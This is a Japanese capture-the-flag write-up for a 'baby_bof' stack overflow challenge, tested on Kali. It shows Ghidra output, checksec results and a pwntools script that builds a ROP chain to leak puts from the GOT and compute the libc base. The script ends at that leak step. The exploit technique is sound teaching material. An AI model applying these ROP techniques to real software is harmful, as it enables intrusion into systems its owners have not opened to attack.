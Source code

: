 テストはKaliで行い、`/usr/lib/x86_64-linux-gnu/libc.so.6` を使いました。

<br />

まずは、Ghidraでコードを確認します。

```C
void vuln(void)

{
  char local_12 [10];
  
  puts("plz don\'t rop me");
  fgets(local_12,0x100,stdin);
  puts("i don\'t think this will work");
  return;
}
```

<br />
checksecも確認。
<pre>
$ checksec baby_bof
[*] '/home/captureamerica/Mac_Downloads/baby_bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
</pre>

<br />
以下、書いたコードです。

```Python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
context(os='linux', arch='amd64')
context.log_level = 'critical'

FILE_NAME = './baby_bof'
s = process(FILE_NAME)
elf = ELF(FILE_NAME)

rdi_ret = next(elf.search(asm('pop rdi; ret')))
got_puts = elf.got["puts"]
plt_puts = elf.plt["puts"]
addr_vuln = elf.symbols["vuln"]

# libc = ELF('./libc.so.6')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
off_puts = libc.symbols["puts"]
# gadget = [0xcbdda, 0xcbddd, 0xcbde0]

bufsize = 10 + 8
payload = "A" * bufsize
payload += p64(rdi_ret)
payload += p64(got_puts)
payload += p64(plt_puts)
payload += p64(addr_vuln)      # return to vuln
s.sendlineafter("rop me\n",payload)
s.recvuntil('work\n')

libc_puts = u64(s.recv(6) + "\x00\x00")
libc_base = libc_puts - off_puts
```